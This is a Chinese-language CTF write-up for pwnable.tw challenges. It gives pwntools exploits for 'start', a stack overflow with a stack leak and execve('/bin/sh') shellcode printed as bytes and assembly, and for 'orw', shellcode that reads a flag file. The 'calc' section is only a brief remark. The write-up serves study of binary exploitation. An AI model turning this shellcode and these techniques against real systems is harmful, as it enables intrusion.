 # [PWNABLE.TW](https://pwnable.tw/challenge)

很早就有人和我推荐这个网站了，但是一直懒得写（

规则中有一句`Do not share entire solution code of high score challenges in public`。但是它没定义具体是多少分才能算“high score challenges”？我猜是400-500分的题。大可不必担心，我连150分的题能不能做出来都难说

## Start

竟然是32位程序，我都忘了该怎么做了（

checksec发现一个保护都没开，因此栈可执行。漏洞是栈溢出，返回entry打印栈上内容（0x08048087）的地方泄漏栈地址并跳转shellcode即可
```py
from pwn import *
p=remote("chall.pwnable.tw",10000)
p.sendafter("CTF:",b'a'*20+p32(0x08048087))
buf=u32(p.recv(4))+20
p.send(b'a'*20+p32(buf)+b"\x6A\x0B\x58\x53\x68\x2F\x2F\x73\x68\x68\x2F\x62\x69\x6E\x89\xE3\x31\xC9\x31\xD2\xCD\x80")
p.interactive()
```
shellcode内容如下：
```
push   0xb
pop    eax
push   ebx
push   0x68732f2f
push   0x6e69622f
mov    ebx,esp
xor ecx,ecx
xor edx,edx
int    0x80
```
(在 https://www.exploit-db.com/exploits/44321 抄的，需要自己补上清空ecx和edx的逻辑)

## orw

flag路径在规则里说过，直接pwntools秒了
```py
from pwn import *
p=remote("chall.pwnable.tw",10001)
p.sendlineafter(":",asm(shellcraft.open("/home/orw/flag")+shellcraft.read(3, 0x0804a060+300, 0x50)+shellcraft.write(1, 0x0804a060+300, 0x50)))
p.interactive()
```

## calc

止 步 于 此

最后还是没能靠自己发现漏洞的完全体，偷瞄了一眼 https://medium.com/@sagidana/calc-pwnable-tw-ef5450f40253 。没想到漏洞竟然是我第一眼看到的内容。然而我卡在了另一个更明显的溢出漏洞，完全忘记了这个我第一眼注意到的内容……
